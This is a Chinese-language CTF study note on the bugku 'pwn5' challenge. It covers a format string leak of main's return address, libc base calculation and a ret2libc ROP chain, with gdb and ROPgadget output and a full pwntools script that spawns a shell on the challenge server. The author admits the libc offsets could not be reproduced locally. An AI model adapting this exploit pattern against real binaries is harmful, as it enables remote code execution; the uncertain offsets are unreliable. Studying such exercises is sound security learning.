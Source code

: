 ```yaml
---
title: pwn5 - bugku
visitors: 阅读量
copyright: true
tags:
  - 笔记
  - Pwn
categories:
  - bugku
abbrlink: '27531070'
date: 2019-10-29 21:26:20
updated: 2019-10-29 21:26:20
password:
top:
---
```


> 本文并未真正意义上的writeup，因为我无法成功复现？？？只是单纯记录一下，做题笔记

首先看一下保护，只开了NX。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/pwn5-bugku-checksec.png)

没有危险函数，如system、getshell等

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190903183652137.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2tldHlfZ3o=,size_16,color_FFFFFF,t_70)

main函数中的变量s，在read函数时可以造成溢出。当中的if条件是限制程序的第二次输入必须包含``真香``、``鸽子``两个字符串。

当中的重点是**printf存在格式化字符串漏洞**，我们可以从这里读取到main函数的返回地址。至于这个地址有什么呢？一开始我看到题目没有任何危险函数，我也想到是溢出函数地址，然后计算libc基地址，从而得到system、/bin/sh真实地址来getshell的。只是想不到从这返回地址计算得到基地址。综上所述：**利用main函数返回地址计算libc基地址**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190903183739209.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2tldHlfZ3o=,size_16,color_FFFFFF,t_70)

好，怎么计算基地址？找到两个说法：

1. 通过gdb查内存发现main返回地址在libc中的偏移是0x20830

   具体怎么查，怎么实现方法不明

2. > “这个题应该给出libc文件的，但是没有给，我们可以读pwn4题的libc，应该是一样的“
   >
   > 把libc文件放在ida中，找到_libc_start_main函数中调用main函数的地方，查看地址
   >
   > ![在这里插入图片描述](https://img-blog.csdnimg.cn/20190903184628636.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2tldHlfZ3o=,size_16,color_FFFFFF,t_70)
   >
   > 这个main的返回地址就=libc基址+0x2082E(这个call rax的偏移地址) + 2(call rax的长度为2)
   >
   > 利用ROPgadget
   > 查libc的system函数偏移地址0x45390
   > 查libc的"/bin/sh"字符串偏移地址0x18cd57
   > 查human的pop_rdi_ret地址0x400933
   > libc中函数的实际地址=libc基址 + 函数偏移地址

   这第二个方法。。。我去找了一下pwn4题目也没有提供libc.so文件QAQ。本着不死心的态度，就用ROPgadget查下了唯一能查的pop_rdi_ret。

   ```
   ROPgadget --binary human --only 'pop|ret'
   ···
   0x0000000000400933 : pop rdi ; ret
   ···
   ```

   嗯是一样的。至于用ROPgadget查system、/bin/sh没有libc文件我怎么查？在看**蒸米师傅**文章时看到一种无libc查函数和字符串的方法。

   首先gdb在main函数处下断点，然后如下所示：

   ```
   ubuntu:gdb ./human
   
   gef➤  b *0x400796
   Breakpoint 1 at 0x400796
   gef➤  r
   gef➤  print system
   $1 = {int (const char *)} 0x7ffff7a33440 <__libc_system>
   gef➤  find /bin/sh
   Searching for '/bin/sh' in: None ranges
   Found 1 results, display max 1 items:
   libc : 0x7ffff7b97e9a --> 0x68732f6e69622f ('/bin/sh')
   ```

   **蒸米师傅**文章还有一种方法无libc计算偏移地址。用pwntools库的elf.libc来获取libc.so库：

   ```python
   from pwn import *
   elf = ELF("./human")
   libc = elf.libc
   ```

   再补充一个查询程序函数库的命令ldd

   ```shell
   skye@skye-ubuntu18:~/bugku$ ldd ./human
   	linux-vdso.so.1 (0x00007ffe07715000)
   	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fe0eadf9000)
   	/lib64/ld-linux-x86-64.so.2 (0x00007fe0eb1ea000)
   ```

   

   好，重点来了！**但是！但是！但是！这里得出来的地址与成功getshell脚本（见后）中计算得出的地址不一致！！！**

   难道是因为系统环境等神秘力量影响？验证一下，将脚本中加载的程序改为本地程序，而非服务端的程序，居然报错无法运行！但是服务端可以成功运行，难道真的是环境（我的是Ubuntu18-64位虚拟机）不一样？但是题目也没有给出libc文件，愁死人。

   唉，那就抛开地址计算部分说一下这道题目的其他考点吧。也就是格式化字符串错误。具体的格式化错误点[这里](https://veritas501.space/2017/04/28/格式化字符串漏洞学习)，就不重复造轮子了。

   不能自行复现的脚本

   ```python
   # -*- coding: utf-8 -*-
   from pwn import *
   context(os='linux', arch='amd64', log_level='debug') 
   
   #p = process("./human")
   p=remote('114.116.54.89', 10005)
       
   p.recvuntil("人类的本质是什么?\n")
   payload1="%11$p"
   p.sendline(payload1)
   p.recvline()
   
   libc_start_main_addr=p.recvuntil("%11$p")[:-6]
   libc_base=int(libc_start_main_addr,16)-0x20830      #偏移0x20830
   sys=libc_base+0x0000000000045390                    #偏移
   bin_sh = libc_base+0x18cd57							#偏移
   pop_rdi = 0x400933					                #ROPgadget找human中的pop rdi ret
   
   p.recvuntil('人类还有什么本质?\n')
   
   payload = 'a鸽子' + 'a'
   payload += '真香' + '\x00'
   payload = payload.ljust(0x20,'a') # 变量s空间有0x20
   payload += 'bbbbbbbb' + p64(pop_rdi) + p64(bin_sh) + p64(sys) # b*8填充的是ebp
   p.sendline(payload)
   
   p.interactive()
   ```

   脚本中的第9行，是格式化字符漏洞构造的特殊表达式。%p是输出带有0x的十六进制数，11$则是选择第11个参数，这里是通过多次修改得出的，这么测试出main函数返回地址是第11个参数，请看[这里](https://veritas501.space/2017/04/28/格式化字符串漏洞学习)实现任意地址读中的测试偏移量部分。

## 参考
[BugkuCTF pwn1 pwn2 pwn4 pwn5 pwn3 详细writeup【橘小白】](https://blog.csdn.net/kety_gz/article/details/100516666#commentsedit)

[蒸米32位及64位ROP笔记]([https://www.mi1k7ea.com/2019/04/09/%E8%92%B8%E7%B1%B3ROP%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/](https://www.mi1k7ea.com/2019/04/09/蒸米ROP学习笔记/))

[格式化字符串漏洞学习](https://veritas501.space/2017/04/28/格式化字符串漏洞学习)